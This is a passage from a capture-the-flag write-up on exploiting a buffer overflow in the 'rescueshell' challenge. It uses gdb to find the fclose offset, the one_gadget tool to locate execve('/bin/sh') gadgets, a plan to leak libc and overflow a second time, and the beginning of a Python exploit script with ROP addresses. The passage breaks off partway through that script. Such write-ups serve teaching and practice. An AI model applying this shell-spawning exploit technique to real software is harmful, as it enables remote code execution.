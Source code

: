 Easy enough:

```bash
$ gdb libc.so.6
Reading symbols from libc.so.6...(no debugging symbols found)...done.
(gdb) p fclose
$1 = {<text variable, no debug info>} 0x695e0 <fclose>
```

### Getting one_gadget offset

One_gadget is **the** one gadget you can find in the libc that performs the simple and wonderful task of `execve("/bin/sh", rsp+0x30, environ)`

There is a [useful tool on github](https://github.com/david942j/one_gadget) that allows to search for it easily.

Using it is fairly simple:

```bash
$ one_gadget libc.so.6 
0x41320	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x41374	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xd6e77	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

There are three of them, it doesn't really matter which one to choose, let's go with the first one.

### Compute offset difference:

Simple substraction: `0x695e0-0x41320 = 0x282c0`

## Survive the leak and execute one_gadget

Don't choose your gadgets at random! ;) There was a lot of strlen/write in the code that we could have used to leak fclose's address, however the one I chose was great because the code continues and goes through our read and `sym.check_passphrase` again!

Which means that we can trigger the buffer overflow a second time, allowing us to write the computed address: `fclose_leak_addr - offset_difference`.

## Putting it all together: final exploit.

```python
import binexpect
import struct

if __name__=='__main__':


    setup = binexpect.setup('nc rescueshell.challs.malice.fr 6060')
    target = setup.target()
    target.setecho(False)

    pop_rdi_ret         = 0x400a93
    slen_write          = 0x4009ca
    fclose_got          = 0x601220

    offset_one_gadget   = 0x41320
```